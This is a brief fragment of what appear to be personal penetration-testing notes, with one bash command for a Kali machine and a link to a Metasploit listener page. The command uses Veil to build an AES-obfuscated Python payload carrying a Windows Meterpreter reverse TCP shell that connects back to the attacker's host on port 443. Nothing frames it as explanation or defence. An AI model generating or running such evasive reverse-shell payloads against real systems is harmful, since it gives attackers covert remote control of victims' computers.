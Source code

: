 ```bash - kali
./Veil.py -l python -p AESVirtualAlloc -o python_payload --msfpayload windows/Meterpreter/reverse_tcp --msfoptions LHOST=$KALI $LPORT=443
```
[[10._TOOLS/Metasploit#Meterpreter Listener 1 Liner]]